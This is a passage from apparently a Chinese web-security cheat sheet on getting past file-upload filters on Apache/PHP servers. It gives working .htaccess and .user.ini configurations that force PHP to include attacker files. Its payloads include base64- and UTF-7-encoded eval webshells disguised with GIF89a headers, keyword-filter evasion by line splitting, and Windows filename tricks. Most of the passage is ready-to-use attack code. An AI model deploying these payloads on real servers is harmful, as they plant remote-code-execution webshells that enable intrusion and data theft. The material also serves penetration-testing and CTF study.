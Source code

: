 ##### 文件包含
在本目录或子目录中有可解析的 PHP 文件时，可以通过 php_value 来设置 `auto_prepend_file` 或者 `auto_append_file` 配置选项来让所有的 PHP 文件自动包含一些敏感文件或恶意文件（如WebShell），来触发文件包含

**Base64 编码绕过**
将一句话进行base64编码，然后在.htaccess中利用php伪协议进行解码，比如：
**.htaccess:**
```
#define width 1337
#define height 1337
AddType application/x-httpd-php .abc
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_fd40c7f4125a9b9ff1a4e75d293e3080/shell.abc"
```
**shell.abc：**
```
GIF89a12PD9waHAgZXZhbCgkX0dFVFsnYyddKTs/Pg==
```
这里GIF89a后面那个12是为了补足8个字节，满足base64编码的规则
或者使用
```
#define width 1
#define height 1
AAAAAAAPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4=
```
也是可以的，注意换行也算一个字节

**UTF-7 编码格式绕过**
images.png
```
+ADw?php eval(+ACQAXw-POST+AFs-cmd+AF0)+ADs?+AD4-
```
然后我们使用 `auto_append_file` 将其包含进来并设置编码格式为 UTF-7 就行了：
```
php_value auto_append_file images.png
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

还可以包含`.htaccess`自身
```
php_value auto_append_file .htaccess
#<?php phpinfo();?>
```

绕过对关键字的过滤我们可以使用反斜杠 `\` 加换行来实现，例如：
```php
AddTy\
pe application/x-httpd-ph\
p .png

# 即: AddType application/x-httpd-php .png
```


[Apache的.htaccess利用技巧](https://xz.aliyun.com/t/8267)
[.htaccess利用与Bypass方式总结 ](https://www.anquanke.com/post/id/205098)
[Apache中.htaccess文件利用的总结与新思路拓展](https://www.freebuf.com/vuls/218495.html)
#### .user.ini
可以借助`.user.ini`轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell。在.user.ini写入代码如下，上传：
```php
GIF89a
auto_prepend_file=a.jpg
```
#### windows文件上传特性
上传文件名   | 服务器表面现象|生成文件内容
-------- | --------|-----
test.php:1.jpg| 生成test.php|空